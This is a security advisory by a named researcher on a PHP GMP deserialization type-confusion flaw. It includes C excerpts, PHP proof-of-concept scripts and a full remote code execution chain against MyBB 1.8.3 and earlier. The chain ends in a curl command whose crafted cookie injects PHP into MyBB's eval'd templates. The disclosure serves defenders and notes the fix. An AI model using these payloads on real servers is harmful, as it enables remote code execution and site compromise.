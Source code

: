 #GMP Deserialization Type Confusion Vulnerability [MyBB <= 1.8.3 RCE Vulnerability]

Taoguang Chen <[@chtg57](https://twitter.com/chtg57)> - Write Date: 2015.4.28 - Release Date: 2017.1.20

> A type-confusion vulnerability was discovered in GMP deserialization with crafted object's __wakeup() magic method that can be abused for updating any already assigned properties of any already created objects, this result in serious security issues.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.30

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
gmp.c
```
static int gmp_unserialize(zval **object, zend_class_entry *ce, const unsigned char *buf, zend_uint buf_len, zend_unserialize_data *data TSRMLS_DC) /* {{{ */
{
	...
	ALLOC_INIT_ZVAL(zv_ptr);
	if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
		|| Z_TYPE_P(zv_ptr) != IS_ARRAY
	) {
		zend_throw_exception(NULL, "Could not unserialize properties", 0 TSRMLS_CC);
		goto exit;
	}

	if (zend_hash_num_elements(Z_ARRVAL_P(zv_ptr)) != 0) {
		zend_hash_copy(
			zend_std_get_properties(*object TSRMLS_CC), Z_ARRVAL_P(zv_ptr),
			(copy_ctor_func_t) zval_add_ref, NULL, sizeof(zval *)
		);
	}
```

zend_object_handlers.c
```
ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
{
	zend_object *zobj;
	zobj = Z_OBJ_P(object);
	if (!zobj->properties) {
		rebuild_object_properties(zobj);
	}
	return zobj->properties;
}
```

It has been demonstrated many times before that __wakeup() or other magic methods leads to `ZVAL` was changed from the memory in during deserializtion. So an attacker can change `**object` into an integer-type or bool-type `ZVAL`, then the attacker will be able to access any objects that stored in objects store via `Z_OBJ_P`. This means the attacker will be able to update any properties in the object via zend_hash_copy(). It is possible to lead to various problems and including security issues.

The following codes will prove this vulnerability:
```
<?php

class obj
{
	var $ryat;
	
	function __wakeup()
	{
		$this->ryat = 1;
	}
}

$obj = new stdClass;
$obj->aa = 1;
$obj->bb = 2;

$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
$x = unserialize($exploit);
var_dump($obj);

?>
```

Expected result:
```
object(stdClass)#1 (2) {
  ["aa"]=>
  int(1)
  ["bb"]=>
  int(2)
}
```

Actual result:
```
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
}
```

**i) How to exploited this bug in real world?**

When PHP 5.6 <= 5.6.11, DateInterval's __wakeup() use convert_to_long() handles and reassignments its properties (it has been demonstrated many times), so an attacker can convert GMP object to an any integer-type `ZVAL` via GMP's gmp_cast_object():

```
static int gmp_cast_object(zval *readobj, zval *writeobj, int type TSRMLS_DC) /* {{{ */
{
    mpz_ptr gmpnum;
    switch (type) {
    ...
    case IS_LONG:
        gmpnum = GET_GMP_FROM_ZVAL(readobj);
        INIT_PZVAL(writeobj);
        ZVAL_LONG(writeobj, mpz_get_si(gmpnum));
        return SUCCESS;
```

The following codes will prove this exploite way:
```
<?php

var_dump(unserialize('a:2:{i:0;C:3:"GMP":17:{s:4:"1234";a:0:{}}i:1;O:12:"DateInterval":1:{s:1:"y";R:2;}}'));

?>
```
Of course, a crafted __wakeup() can also be exploited, ex:

```
<?php

function __wakeup()
{
    $this->ryat = (int) $this->ryat;
}

?>
```

**ii) Can be exploited this bug in real app?**

Exploited the bug in MyBB:

index.php
```
	if(isset($mybb->cookies['mybb']['forumread']))
	{
		$forumsread = my_unserialize($mybb->cookies['mybb']['forumread']);
	}
```

MyBB <= 1.8.3 allow deserialized cookies via unserialize(), so an attacker will be able to update `$mybb` or other object's any properties, and it is possible to lead to security issues easily, ex: xss, sql injection, remote code execution and etc. :-)

**P.S. I had reported this vulnerability and it had been fixed in mybb >= 1.8.4.**

Proof of Concept Exploit
------------
**MyBB <= 1.8.3 RCE vulnerability**

index.php
```
eval('$index = "'.$templates->get('index').'";');
```

MyBB always use eval() function in during template parsing.

inc/class_templates.php
```
class templates
{
	...
	public $cache = array();
	...
	function get($title, $eslashes=1, $htmlcomments=1)
	{
		global $db, $theme, $mybb;
		...
		$template = $this->cache[$title];
		...
		return $template;
	}
```

If we can control the `$cache`, we will be albe to inject PHP code via eval() function.

inc/init.php
```
$error_handler = new errorHandler();
...
$maintimer = new timer();
...
$mybb = new MyBB;
...
switch($config['database']['type'])
{
	case "sqlite":
		$db = new DB_SQLite;
		break;
	case "pgsql":
		$db = new DB_PgSQL;
		break;
	case "mysqli":
		$db = new DB_MySQLi;
		break;
	default:
		$db = new DB_MySQL;
}
...
$templates = new templates;
```

The `$templates` object was instantiated in init.php, and four objects was instantiated in this before. This means the `$templates` object's handle was set to `5` and stored into objects store, so we can access the `$templates` object and update the `$cache` property via convert GMP object into integer-type `ZVAL` that value is `5` in during GMP deserialization. This also means we can inject PHP code via eval() function.

When MyBB <= 1.8.3 and PHP 5.6 <= 5.6.11, remote code execution by just using curl on the command line:
```
curl --cookie 'mybb[forumread]=a:1:{i:0%3bC:3:"GMP":106:{s:1:"5"%3ba:2:{s:5:"cache"%3ba:1:{s:5:"index"%3bs:14:"{${phpinfo()}}"%3b}i:0%3bO:12:"DateInterval":1:{s:1:"y"%3bR:2%3b}}}}' http://127.0.0.1/mybb/
```